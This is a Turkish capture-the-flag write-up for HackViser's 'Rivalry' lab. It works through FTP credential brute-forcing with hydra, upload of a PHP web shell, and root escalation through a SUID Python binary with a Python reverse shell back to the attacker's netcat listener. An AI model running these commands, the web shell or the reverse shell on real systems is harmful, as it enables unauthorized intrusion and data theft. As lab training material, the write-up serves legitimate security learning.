





# Rivalry CTF Çözüm Raporu

## Genel Bilgiler

- **Platform**: HackViser
- **Senaryo Adı**: Rivalry
- **URL**: https://app.hackviser.com/scenarios/rivalry
- **Tarih**: 8 Mart 2026

## Senaryo

Yazılım devleri VertexWave International ve Orbitronix Systems arasında çarpıcı bir rekabet hüküm sürüyor, her ikisi de pazar hakimiyeti için sürekli mücadele ediyorlar. Yakın zamanda, VertexWave International, bu kritik göreve uygun bir kişi olarak size, yetenekli bir hackera, gizli bir görev verdi.

Göreviniz, Orbitronix Systems'ın satış ve pazarlama stratejileriyle ilgili hassas verilere ulaşmak. Bu bilgi hayati öneme sahip çünkü Orbitronix Systems, VertexWave'ı geride bırakmak için, yenilikçi ve son derece etkili pazarlama kampanyalarıyla tanınan ünlü Create Edge Reklam Ajansı ile bir ortaklık kurdu.

VertexWave International, oyun alanını eşitlemek ve belki de üstünlük sağlamak için, sizden Orbitronix Systems'ın satış ve pazarlama manevralarıyla ilgili detaylı bilgiler toplamanızı istiyor.

Hedefin, Orbitronix Systems'ın anlaştığı Create Edge Reklam Ajansını hacklemek.

## Flaglar

1. **Flag 1** – Orbitronix Systems'in CEO'su, Emily Johnson, ne kadar yeni müşteri kazandığını söylüyor?
2. **Flag 2** – Orbitronix Systems'in reklam bütçesi kaç dolardır?
3. **Flag 3** – Orbitronix Systems reklam kampanyasının hedef kitlesi kimdir?
4. **Flag 4** – Create Edge tarafından geliştirilen gizli pazarlama aracının adı nedir?

## Keşif (Reconnaissance)

### Pasif Tarama

- Etkileşime girilen bir alan yok; sadece site yenileme ve sayfa içi yönlendirme.
- Bir reklam sitesi, şirket hakkında bilgi veriyor sadece.

 

- Flag 1 en sondaki yorumlar kısmında söyleniyor. 



### Aktif Tarama

- Dirb ile bir tarama başlatıyoruz ve bazı yollar açılıyor:
  - ftp
  - assets
  - vendor

```
dirb http://<hedef-ip>
```

- Nmap taramasında FTP portunun açık olduğu belli oluyor.
- İçerideki etkileşimleri Burp ile takip ediyoruz fakat bir sonuç alamıyoruz.
- FTP yolunu takip edince bizi bir CSV uzantılı dosya karşılıyor. Bunu açınca Flag 2 bulunuyor.
- FTP sunucusuna bağlanmaya çalışıyoruz ama kullanıcı adı ve şifreyi bilmiyoruz; bunun için brute force yapıyoruz.

Bunun için https://github.com/erdemcey/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt uzantısından wordlist edinin.

```
hydra -C ftp-betterdefaultpasslist.txt ftp://hedefsite/ftp/ -vV -f
```

- Kullanıcı adı ve şifre bulunmuştur.

 

## Initial Access

- Artık FTP'ye bağlanın:

```
ftp <hedef-ip>
```

Kullanıcı adı ve şifreyi yazın.

- İçeride gezinmeye çalıştığınızda yetkinizin çok kısıtlı olduğunu göreceksiniz.
- Shell.php dosyasını yükleyin:

```
put shell.php
```

- Sitede FTP klasörü altında bir kısıtlı yetkiyle shell olduğunu göreceksiniz.
- Komut vermek için sitede:

```
http://<hedef-site>/ftp/shell.php?cmd=<komut>
```

bunu uygulayın.

- Sitede tekrar gezinmeye çalıştığınızda `ls` ile dizinleri gezebilirsiniz fakat okurken permission denied hatası alırsınız.
- Bu noktada yapmanız gereken şey yetki yükseltme aşamasına geçmektir.

### Shell.php İçeriği

```php
<?php system($_GET['cmd']); ?>
```

## Yetki Yükseltme (Privilege Escalation)

- SUID izni bulunan dosyaları bulun:

```
find / -perm -u=s -type f 2>/dev/null
```

- Çıktıda `/usr/bin/python3.9` göreceksiniz; bu bizim altın madenimiz.
- Bu zafiyeti sömürerek root yetkisi alacağız.
- Öncelikle reverse shell için sunucu başlatın:

```
nc -lvnp 4444
```

- Sisteme root.py dosyasının içerisine IP adresinizi yazarak gönderin ve tetikleyin.

### Root.py İçeriği

```python
import socket, os, pty

# Kendi makinenin IP adresini ve dinlediğin portu yaz
ip = "KENDI_IP_ADRESIN" 
port = 4444

# SUID yetkisini kullanarak root yetkisine geç
os.setuid(0)

# Ters bağlantıyı kur
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Standart giriş, çıkış ve hatayı sokete yönlendir
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Root shell'i başlat
pty.spawn("/bin/bash")
```


- Veya sistemde HTTP üzerinden:

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<KENDI_IPN>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

komutunu yazın ve shell panelinize 4444 portunuza düşsün.

- Daha sonra `/archive/meetings/` dizinine gidin.
- CSV dosyasını `strings` komutu ile açınca Flag 3 onun içinde.

 

- TXT dosyasının içindede Flag 4 sizi bekliyor. 




## Sonuç

Tebrikler! Odayı tamamladınız.

---

> **Not:** Bu rapor HackViser Rivalry senaryosu için hazırlanmıştır. Tüm görseller `images/` klasöründe bulunmaktadır ve Markdown formatında referans edilmiştir. Kod dosyaları uygun bölümlerde gömülmüştür.
